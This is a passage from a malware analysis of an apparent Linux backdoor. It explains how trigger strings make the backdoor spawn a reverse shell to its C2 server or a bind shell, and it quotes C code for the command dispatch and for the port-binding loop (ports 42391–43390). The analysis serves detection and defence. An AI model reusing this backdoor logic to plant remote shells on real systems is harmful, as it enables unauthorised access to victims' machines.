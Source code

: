 If the transmitted value is **"justforfun"**, the malware establishes a TCP reverse shell to connect back to the C2 server.

- The function `try_link()` returns a TCP client socket object, which is stored in the variable `scli`.

- This `scli` object is then passed as an argument to the `shell()` function.

If the transmitted value is **"socket"**, the malware sets up a bind shell server, listening for incoming connections.

- The function `getshell()` calls another function `b()`, which returns a TCP listening socket (bind server).

- The resulting socket is stored in the variable `sockfd`, which is then passed as an argument to the `shell()` function.

In summary, the command structure of this malware operates as follows:
- `justforfun` command → Spawns a **reverse shell**
- `socket` command → Spawns a **bind shell**

```c
cmp = logon(mp->pass); // Check the command
switch(cmp) {
    case 1:
        strcpy(sip, inet_ntoa(ip->ip_src));
        getshell(sip, ntohs(tcp->th_dport));
        break;
    case 0:
        scli = try_link(bip, mp->port);
        if (scli > 0)
                shell(scli, NULL, NULL);
        break;
    case 2:
        mon(bip, mp->port);
        break;
}
```

### Port Range

When spawning a bind shell, the malware selects a random port within the range **42391** to **43390**.

```C
for (port = 42391; port < 43391; port++) { // 42391 - 43390
    my_addr.sin_port = htons(port);
    if( bind(sock_fd,(struct sockaddr *)&my_addr,sizeof(struct sockaddr)) == -1 ){
        continue;
    }
    if( listen(sock_fd,1) == 0 ) {
        *p = port;
        return sock_fd;
    }
    close(sock_fd);
}
return -1;
```
